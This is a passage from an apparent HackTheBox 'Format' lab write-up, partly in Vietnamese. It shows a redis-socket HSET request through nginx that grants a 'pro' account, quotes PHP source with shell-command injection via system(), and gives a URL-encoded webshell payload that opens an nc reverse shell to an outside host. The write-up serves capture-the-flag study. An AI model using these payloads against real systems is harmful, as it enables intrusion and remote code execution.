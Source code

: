 ```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:hacker%20pro%20true%20a/b
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

Now I am pro user.

##### shell as www-data

```php
#http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/app/index.php

function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}

```

```php
#http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

```
Với tài khoản pro, chúng ta có thể chèn webshell. 
```bash
id=/var/www/microblog/hacker/uploads/rev.php&header=%3C%3Fphp+echo+shell_exec%28%22rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+10.10.16.2+9001+%3E%2Ftmp%2Ff%22%29%3B%3F%3E
```
